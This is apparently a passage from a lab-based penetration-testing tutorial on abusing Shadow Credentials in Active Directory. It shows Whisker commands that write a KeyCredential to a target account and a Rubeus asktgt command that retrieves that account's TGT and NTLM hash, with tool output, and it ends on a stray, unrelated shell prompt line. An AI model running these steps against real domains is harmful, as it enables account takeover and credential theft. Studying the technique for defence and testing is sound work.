 ```shell

```

As the command's output shows, Jeffry has `FullControl` over the target account, Gabriel.

## Abusing Shadow Credentials from Windows

To abuse Shadow Credentials from Windows, we will use [Whisker](https://github.com/eladshamir/Whisker). We can use `Whisker.exe list /target:gabriel` to read the value of the `msDS-KeyCredentialLink` attribute of the target.

```powershell
PS C:\Tools> .\Whisker.exe list /target:gabriel
[*] Searching for the target account
[*] Target user found: CN=Gabriel,CN=Users,DC=lab,DC=local
[*] Listing deviced for gabriel:
    DeviceID: 462d7a93-f342-a139-96fc-2c750d2f4c89 | Creation Time: 27/04/2024 18:01:17

```

We found one key in this account. To add new credentials, we have two options: We can provide a certificate file that will be used as the alternative credentials for the account, or we can use `.\Whisker.exe add /target:gabriel` to generate the certificate and print the `Rubeus` command needed to retrieve the account's TGT and NTLM hash.

```powershell
PS C:\Tools> .\Whisker.exe add /target:gabriel
[*] No path was provided. The certificate will be printed as a Base64 blob
[*] No pass was provided. The certificate will be stored with the password cw7I7QaHMS44q5xt
[*] Searching for the target account
[*] Target user found: CN=Gabriel,CN=Users,DC=lab,DC=local
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID 48d97546-cac9-4e92-981b-e89da231f7a8
[*] Updating the msDS-KeyCredentialLink attribute of the target object
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[*] You can now run Rubeus with the following syntax:

Rubeus.exe asktgt /user:gabriel /certificate:MIIJuAIBAzCCCXQGC..SNIP...6F9yJkzw28UnNcCs/0aclXHfAwICB9A= /password:"cw7I7QaHMS44q5xt" /domain:lab.local /dc:LAB-DC.lab.local /getcredentials /show

```

Now we can run `Rubeus` to get the TGT and NTLM hash. We must use the option `/getcredentials` to retrieve the NTLM hash:

```powershell
PS C:\Tools> .\Rubeus.exe asktgt /user:gabriel /certificate:MIIJuAIBAzCCCXQGC..SNIP...6F9yJkzw28UnNcCs/0aclXHfAwICB9A= /password:"cw7I7QaHMS44q5xt" /domain:lab.local /dc:LAB-DC.lab.local /getcredentials /show /nowrap
  ______    _
 (_____ \   | |
  _____) )_ _| |__ _____ _ _ ___
 | __ /| | | | _ \| ___ | | | |/___)
 | | \ \| |_| | |_) ) ____| |_| |___ |
 |_| |_|____/|____/|_____)____/(___/

 v2.3.2

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=gabriel
[*] Building AS-REQ (w/ PKINIT preauth) for: 'lab.local\gabriel'
[*] Using domain controller: fe80::f11e:5faf:4886:146a%15:88
[+] TGT request successful!
```

[WEB01]: PS C:\Users\Administrator.INLANEFREIGHT\Documents> whoami;hostname